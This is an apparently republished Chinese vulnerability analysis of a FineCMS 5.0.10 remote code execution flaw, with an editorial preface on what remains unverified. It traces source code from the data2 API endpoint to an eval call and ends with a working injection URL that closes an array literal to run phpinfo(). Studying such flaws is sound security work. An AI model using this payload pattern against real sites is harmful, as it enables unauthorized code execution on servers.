




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：从会话Cookie名可获SYS_KEY并计算auth；MEMBER缓存存在；eval模板缓存表达式可达

- **结论使用边界（1）**：源码链具体，和5.0.8头像上传是不同sink，不可因同data2端点合并。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（2）**：硬编码SYS_KEY与站点自定义/可从Cookie前缀取得须分别陈述；URL解码后的值仍写%20/%27，解释混淆编码层。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **事实待核（3）**：首图指文件上传条目资源，需核对应；来源/修复范围缺失。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Finecms 5.0.10 任意代码执行漏洞

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

### 漏洞分析

这个漏洞的文件在`/finecms/dayrui/controllers/Api.php`的data2()

    public function data2() {
            $data = array();

            // 安全码认证
            $auth = $this->input->get('auth', true);
            if ($auth != md5(SYS_KEY)) {
                // 授权认证码不正确
                $data = array('msg' => '授权认证码不正确', 'code' => 0);
            } else {
                // 解析数据
                $cache = '';
                $param = $this->input->get('param');
                if (isset($param['cache']) && $param['cache']) {
                    $cache = md5(dr_array2string($param));
                    $data = $this->get_cache_data($cache);
                }
                if (!$data) {

                    // list数据查询
                    $data = $this->template->list_tag($param);
                    $data['code'] = $data['error'] ? 0 : 1;
                    unset($data['sql'], $data['pages']);

                    // 缓存数据
                    $cache && $this->set_cache_data($cache, $data, $param['cache']);
                }
            }

            // 接收参数
            $format = $this->input->get('format');
            $function = $this->input->get('function');
            if ($function) {
                if (!function_exists($function)) {
                    $data = array('msg' => fc_lang('自定义函数'.$function.'不存在'), 'code' => 0);
                } else {
                    $data = $function($data);
                }
            }

            // 页面输出
            if ($format == 'php') {
                print_r($data);
            } elseif ($format == 'jsonp') {
                // 自定义返回名称
                echo $this->input->get('callback', TRUE).'('.$this->callback_json($data).')';
            } else {
                // 自定义返回名称
                echo $this->callback_json($data);
            }
            exit;

        }

可以看到开头这里验证了认证码：

    // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {

授权码在`/config/system.php`

可以看到SYS\_KEY是固定的，我们可以在Cookies找到，`/finecms/dayrui/config/config.php`

用浏览器查看Cookies可以看到KEY，但是验证用MD5，我们先把KEY加密就行了。

直接看到这一段，调用了Template对象里面的list\_tag函数

    if (!$data) {

        // list数据查询
        $data = $this->template->list_tag($param);
        $data['code'] = $data['error'] ? 0 : 1;
        unset($data['sql'], $data['pages']);

        // 缓存数据
        $cache && $this->set_cache_data($cache, $data, $param['cache']);
    }

我们到`finecms/dayrui/libraries/Template.php`看list\_tag函数的代码,代码有点长，我抓重点的地方,这里把`param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271`的内容分为两个数组\$var、\$val，这两个数组的内容分别为

    $var=['action','name']
    $val=['cache%20','MEMBER.1%27];phpinfo();$a=[%271']

\$cache=\_cache\_var是返回会员的信息 重点的是下面的
`@eval('$data=$cache'.$this->_get_var($_param).';');`

    foreach ($params as $t) {
                $var = substr($t, 0, strpos($t, '='));
                $val = substr($t, strpos($t, '=') + 1);

再看这一段,因为swtich选中的是cache，所有就不再进行下面的分析了。
`$pos = strpos($param['name'], '.');`这句是为下面的substr函数做准备。
是为了分离出的内容为

    $_name='MEMBER'
    $_param="1%27];phpinfo();$a=[%271"
    // action
            switch ($system['action']) {

                case 'cache': // 系统缓存数据
                    if (!isset($param['name'])) {
                        return $this->_return($system['return'], 'name参数不存在');
                    }

                    $pos = strpos($param['name'], '.');
                    if ($pos !== FALSE) {
                        $_name = substr($param['name'], 0, $pos);
                        $_param = substr($param['name'], $pos + 1);
                    } else {
                        $_name = $param['name'];
                        $_param = NULL;
                    }
                    $cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
                    if (!$cache) {
                        return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
                    }
                    if ($_param) {
                        $data = array();
                        @eval('$data=$cache'.$this->_get_var($_param).';');
                        if (!$data) {
                            return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
                        }
                    } else {
                        $data = $cache;
                    }

                    return $this->_return($system['return'], $data, '');
                    break;

跟踪get\_var函数，在这里我们先把\$param的内容假设为a,然后执行函数里面的内容，最后返回的\$string的内容是：

    $string=['a']

那么我们的思路就是把两边的\[\' \'\]闭合然后再放上恶意的代码。
payload为：`1'];phpinfo();$a=['1 `那么返回的\$string的内容：

    $string=['1'];phpinfo();$a=['1']

### 漏洞复线

    http://0-sec.org/index.php?c=api&m=data2&auth=目标站点的值&param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271

